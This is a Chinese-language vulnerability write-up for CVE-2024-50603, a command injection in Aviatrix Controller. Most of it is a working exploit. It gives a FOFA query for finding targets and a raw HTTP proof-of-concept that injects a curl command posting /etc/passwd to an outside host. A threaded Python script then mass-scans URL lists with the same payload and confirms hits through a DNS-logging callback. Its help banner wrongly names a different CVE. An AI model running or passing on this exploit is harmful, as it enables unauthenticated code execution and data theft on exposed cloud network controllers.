 # 漏洞描述
<font style="color:rgb(52, 58, 64);">在Aviatrix Controller的7.1.4191版本之前以及7.2.x在7.2.4996版本之前存在一个漏洞。由于未正确处理操作系统命令中的特殊元素，未经身份验证的攻击者可以执行任意代码。云类型中的/v1/api用于发送shell元字符到list_flightpath_destination_instances或src_cloud_type的flightpath_connection_test。</font>

# <font style="color:rgb(52, 58, 64);">参考链接</font>
[https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/](https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/)

# fofa
title="Aviatrix Controller"

# 披露时间
<font style="color:rgb(33, 37, 41);">2025-01-08</font>

# <font style="color:rgb(33, 37, 41);">漏洞复现</font>

poc

```http
POST /v1/api HTTP/1.1
Host: 
Content-Length: 177
Content-Type: application/x-www-form-urlencoded
 
action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+"@/etc/passwd"+http://dns.com)
```

![](https://cdn.nlark.com/yuque/0/2025/png/46595937/1736393692721-f985b6aa-7926-4380-ad56-1aae4b671c44.png)

![](https://cdn.nlark.com/yuque/0/2025/png/46595937/1736393711986-d8c6069c-91d9-48f5-b21b-8d8b879fc581.png)

# py脚本
```python
#coding:utf-8
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib


# 禁用 SSL 警告
requests.packages.urllib3.disable_warnings()

timeout = 10  # 请求超时时间

def verify(url, proxies={}):
    if not url.startswith(('http://', 'https://')):
        # 如果没有，就添加 'http://'
        url = 'http://' + url
    try:
        num = str(random.randint(1000, 9999))
        dns = f'https://eyes.sh/api/dns/xhs99/{num}/?token=8398ce3f'
        path = "/v1/api"
        vul_url = url + path
        header = {
            'Content-Length': '177',
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        data = '''action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+"@/etc/passwd"+http://'''+ num +'''.xhs99.eyes.sh)'''
        res = requests.post(vul_url, data=data, headers=header, verify=False, timeout=timeout, proxies=proxies, allow_redirects=False)
        a = requests.get(dns, verify=False, timeout=timeout, proxies=proxies, allow_redirects=False)
        if res.status_code == 200:
            if "True" in a.text:
                print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
                with open('CVE-2024-50603.txt', 'a') as f:
                    f.write(url + '\n')
        else:
            print("[-] No vulnerabilities found")
        # if response.status_code == 200:
        #     print('[+] Verified')
        # else:
        #     print('[-] Verification Failed')
    except requests.exceptions.RequestException as e:
        print(e)

def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            urls = [line.strip() for line in f.readlines() if line.strip()]
        return urls
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")
        return []

def help():
    # helpinfo = """ """
    # print(helpinfo)
    print("CVE-2024-9001".center(100, '*'))
    print(f"[+]{sys.argv[0]} -u --url http://www.xxx.com 即可进行单个漏洞检测")
    print(f"[+]{sys.argv[0]} -f --file targetUrl.txt 即可对选中文档中的网址进行批量检测")
    print(f"[+]{sys.argv[0]} -p --proxies 代理设置")
    print(f"[+]{sys.argv[0]} -t --thread 线程设置，默认为10")
    print(f"[+]{sys.argv[0]} -h --help 查看更多详细帮助信息")
    print("--@ztomato".rjust(100," "))

def main():
    parser = argparse.ArgumentParser(description='@ztomato')
    parser.add_argument('-u','--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f','--file', type=str, help='批量检测文本')
    parser.add_argument('-t','--thread',type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies)
    elif args.file:
        urls = pl(args.file)
        if not urls:
            print(f"[-] No valid URLs found in {args.file}")
            return

        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            # 使用 executor.map 实现并发调用
            results = list(executor.map(lambda url: verify(url, proxies), urls))
            # 可选：打印结果
            # for result in results:
            #     if result and result.get('isVul'):
            #         print(f"[+] Vulnerability confirmed for {result['url']}")
    else:
        help()

if __name__ == '__main__':
    main()
```

# 修复建议
<font style="color:rgb(52, 58, 64);">"将组件 Controller 升级至 7.2.4996 及以上版本"</font>

